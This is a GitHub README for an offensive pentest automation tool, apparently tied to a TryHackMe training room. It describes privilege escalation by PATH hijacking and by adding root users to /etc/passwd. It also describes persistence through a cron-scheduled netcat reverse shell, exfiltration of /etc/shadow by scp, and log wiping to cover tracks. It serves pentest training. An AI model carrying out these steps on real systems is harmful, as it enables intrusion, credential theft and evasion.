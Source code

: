 # the terminator
+++ a tool for automating common techniques for the enumeration, privilege escalation, persistence, exfiltration, and reporting stages of a pentest +++

>check out the terminator's TryHackMe [room](https://tryhackme.com/room/theterminator) to learn how to use this powerful tool!

>*feel free to use and test the terminator and share your suggestions in the Discussions*
# contents
- terminator.py - tool for automating common techniques for enumeration, privilege escalation, persistence, exfiltration, and reporting
- directory-list.txt - default wordlist of common directory names for web enumeration (use -w in 'enum' module to specify a different wordlist)

<> the terminator automates every stage of a penetration test *except* gaining the initial shell (there are too many possible ways to get an initial shell for it to be reliably automated, and it can depend on a multitude of nuanced vulnerabilities, so that stage is up to you, good luck!)

# how to use
1) clone the repository to your computer
- `git clone https://github.com/suffs811/the-terminator.git`
- note: if you choose to only download terminator.py and not the entire repo, you will need to specify a directory wordlist for webpage enumeration ("-w" with the "enum" module of terminator.py)

2) deploy the terminator

<> the terminator has four modules. for full terminator productivity, you will need to run the script *four* separate times:
first on your own machine (enum), second time on the target machine after gaining initial shell (priv), third time on target machine after gaining root privileges (root), and fourth time on your local machine to compile the report (report).
- enum - enumerate the target ip
- priv - attempt privilege escalation on target machine
- root - with root privileges, establish persistence and exfiltrate system data to local machine
- report - create .txt and .docx report files on local machine from data gathered using the previous modules

*see the [syntax](#syntax) section below for help on how to use each module*

*for help with usage, use the -h flag or grep for 'usage' in the script (grep "usage" terminator.py)*

*hint: local machine = your own machine*

# syntax
(stage 1-enumerating target from local machine):
- `python3 terminator.py enum -t <target_ip_to_enumerate>`
(optional: -w <path_to_directory_wordlist> (otherwise, terminator will use default list))

(stage 2-privilege escalation after gaining shell on target machine):
- `python3 terminator.py priv -u <new_root_username> -p <new_root_passwd>`

(stage 3-persistence/data exfiltration after gaining root privileges on target machine):
- `python3 terminator.py root -u <new_user_name> -p <new_user_passwd> -l <local_ip> -x <local_listening_port>`
(optional: -f (bypass root permissions check))

(stage 4-create report on local machine):
- `python3 terminator.py report -o <output_file_name>`

# details
stage 1 - enumeration
- initial nmap scan to find open ports on host
- secondary nmap scan to identify services running on open ports
- if http in use, run nikto, gobuster, curl robots.txt, and search web page source code for 'username' and 'password'
- if smb in use, run enum4linux and nmap scripts to scan smb shares and users
- if ftp in use, run nmap scripts to determine if ftp allows 'anonymous' logon
- if nfs in use, run nmap scripts to identify service status and mounted shares

stage 2 - privilege escalation
- attempt to disable history logging of current session and create current backups of log files
- attempt running sudo-l to find commands user can run as sudo, then run the command if it does not require user interaction; if it does, then print to screen
- find files with suid bitset and if the binary exists in terminator's dictionary, execute the code; if it needs user interaction, print to screen
- run strings on suid files to find commands that do not specify command's full path, then create binary file in /tmp, echo '/bin/bash -p' to file, add /tmp to $PATH, execute binary
- check if /etc/passwd or /etc/shadow are world-writable; if either one is, create password from user input and append new root user to the file; su user for root
- <> note: some privilege escalation vectors only provide you with escalated user privileges and not a full root shell; however, you can use your new escalated privileges to find another privilege escalation vector to gain a root shell (such as looking in /root or looking at root's password hash in /etc/shadow)

stage 3 - persistence and data exfiltration (ensure ssh is active on local machine)
- check for root permissions and suggest -f to bypass root check
- if root permissions is true, create password from user input, add new root user to /etc/passwd, /etc/shadow files and add to root group
- create shell script at /dev/shm/.data/data_log containing netcat reverse shell at ip:port from user input
- create cronjob in /etc/crontab to execute the shell script every 5 minutes

- write id,whoami,netstat and /etc/passwd,/etc/shadow,/etc/hosts,/etc/crontab,/etc/exports, and suid files to single file and scp the file to local machine using ip from user input to local 'root' user; *scp will prompt for local user's root password on local machine*
- cover tracks by clearing log files and history, restoring log files to the copies made during stage 2, deleting all files created by terminator, and deleting terminator.py itself

stage 4 - report writing
- add contents from enum.txt (enumeration data), priv.txt (privilege escalation vector used to gain root privileges), and data_exfil.txt (peristence and target machine data) to .txt and .docx files with headings; use -o to specify desired file name

# credit and license
Copyright (c) 2023 suffs811

https://github.com/suffs811

This project is licensed under the MIT License - see the LICENSE file for details.

directory-list.txt comes from SecLists' common.txt list of directory names. it can be found here: https://github.com/suffs811/SecLists/blob/master/Discovery/Web-Content/common.txt

*terminator has been tested on kali linux 2022.4 (local machine) and ubuntu unity 22.10 / Ubuntu 20.04.6 / Ubuntu 18.04.6 (target machine)*

-+- Leave a comment if you have any questions! -+-
